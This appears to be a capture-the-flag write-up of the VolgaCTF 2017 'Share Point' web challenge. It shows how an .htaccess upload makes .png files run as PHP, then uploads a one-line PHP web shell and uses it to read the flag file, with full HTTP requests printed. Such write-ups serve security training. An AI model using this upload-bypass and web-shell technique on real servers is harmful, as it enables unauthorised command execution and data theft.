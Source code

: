 # Share Point - 200
Problem:
```
Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru
```
When I browsed to the web I found login page which could login with any user but you have to specify the password.
![login page](kapi-images/Loginpage.JPG)

I found page that I could upload any file but not with php or html file.
![upload page](kapi-images/uploadphpfail.JPG)

I've tried hard but it could not be bypass file extension checking.

I've come up with another method by uploading .htaccess. I modify .htaccess to handling .png like .php file.
The following was content of .htaccess:
```
AddType application/x-httpd-php .png
```

and then upload the .htaccess file.
![upload htaccess](kapi-images/upload htaccess.JPG)

When I uploaded .png file the server will treat the .png file like .php file.

I upload .png file with malicious shell command.
```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 221
Content-Type: multipart/form-data; boundary=---------------------------15359717221864
Cookie: PHPSESSID=na403i0vkb1tkf0fd4d3iclg04
DNT: 1
Connection: close

-----------------------------15359717221864
Content-Disposition: form-data; name="userFile"; filename="zion.png"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
-----------------------------15359717221864--
```

Then browse to zion.png and execute commands to find and grab the flag.
```
GET /files/kapi/zion.png?cmd=cat%20/opt/flag.txt HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=na403i0vkb1tkf0fd4d3iclg04
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1


HTTP/1.1 200 OK
Date: Mon, 27 Mar 2017 07:03:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 51
Connection: close
Content-Type: text/html; charset=UTF-8

VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
```

The flag was:
* VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}

